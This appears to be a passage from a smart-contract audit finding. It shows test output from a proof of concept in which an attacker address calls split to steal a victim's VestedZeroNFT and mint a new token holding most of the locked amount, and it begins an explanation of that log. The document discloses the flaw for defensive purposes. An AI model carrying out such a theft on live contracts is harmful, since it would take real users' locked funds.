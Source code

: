 ```
  1710064957n,
  false,
  0n
]
Execute the attack to steal the amount of pending of the VestedZeroNFT to mint a new tokenID for the attacker
Attacker address:  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
Call split to theft the tokenID of Ant
LastTokenId:  2n
tokenIdToLockDetails:  Result(10) [
  0n,
  1710065933n,
  0n,
  1000000000000000000n,
  0n,
  0n,
  1000n,
  1710064957n,
  false,
  0n
]
The owner address of the lastTokenId:  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
Get tokenIdToLockDetails of the lastTokenId
tokenIdToLockDetails:  Result(10) [
  0n,
  1710065933n,
  0n,
  9999000000000000000000n,
  0n,
  0n,
  1000n,
  1710064958n,
  false,
  0n
]
    ✔ Direct theft of ZeroVestedNFT (283ms)

```

Test Log explanation: 

So Pre-condition: Ant has 1 VestedZeroNFT with id = 2 
The tokenIdToLockDetails information for this tokenID 
```
tokenIdToLockDetails:  Result(10) [
  0n,
  1710065933n,
  0n,
  10000000000000000000000n,
  0n,
  0n,
  1000n,
  1710064957n,
  false,
  0n
]
```
